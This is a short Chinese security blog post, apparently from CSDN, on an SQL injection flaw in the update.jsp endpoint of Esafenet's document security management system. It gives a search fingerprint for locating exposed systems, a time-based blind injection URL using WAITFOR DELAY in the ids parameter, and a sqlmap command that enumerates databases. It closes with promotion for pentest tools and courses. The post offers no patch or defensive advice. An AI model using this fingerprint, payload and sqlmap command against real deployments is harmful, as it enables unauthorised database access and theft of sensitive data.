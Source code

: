 # 原创
：  掌控安全Update.jsp SQL注入

# 掌控安全Update.jsp SQL注入

**0x01 漏洞介绍**<br/> 亿赛通电子文档安全管理系统是国内最早基于文件过滤驱动技术的文档加解密产品之一，保护范围涵盖终端电脑（Windows、Mac、Linux系统平台）、智能终端（Android、IOS）及各类应用系统（OA、知识管理、文档管理、项目管理、PDM等）。该漏洞存在与/update接口下，flag对输入的数据没有进行严格的过滤而导致SQL注入，攻击者可以利用该漏洞获取数据库敏感信息。<br/>**0x02 影响产品**

> 
- `亿赛通电子文档安全管理系统`


**0x03 语法特征**

> 
- `app="亿赛通-电子文档安全管理系统"`


**0x04 漏洞复现**<br/> 页面<br/>  

<br/> POC

> 
- `CDGServer3/workflowE/useractivate/update.jsp?flag=1&amp;ids=1,3);WAITFOR%20DELAY%20%270:0:值%27--`


修改值的大小 对应延迟时间<br/>  

> 

- `python3 sqlmap.py -u "https://xxxxx/CDGServer3/workflowE/useractiv`- `ate/update.jsp?flag=1&amp;ids=1,3)" --batch --dbs`


**没看够~？欢迎关注！**

** **<img alt="" height="768" src="https://img-blog.csdnimg.cn/26702f478f4b4a04a4deaea3093b2464.png" width="1024"/>

渗透工具

技术文档、书籍

<img alt="" height="516" src="https://img-blog.csdnimg.cn/f333a24647774be5b99b00fb7019d620.png" width="852"/> <img alt="" height="523" src="https://img-blog.csdnimg.cn/3e579b7d7a164889a57771c035775069.png" width="856"/>

面试题

帮助你在面试中脱颖而出

视频

基础到进阶

环境搭建、HTML，PHP，MySQL基础学习，信息收集，SQL注入,XSS，CSRF，暴力破解等等

<img alt="" height="481" src="https://img-blog.csdnimg.cn/a601ca2e0eb040bd911477a4f54fef8e.png" width="694"/> <img alt="" height="77" src="https://img-blog.csdnimg.cn/04beeeb6757b422a83ca0900a349a544.png" width="665"/>
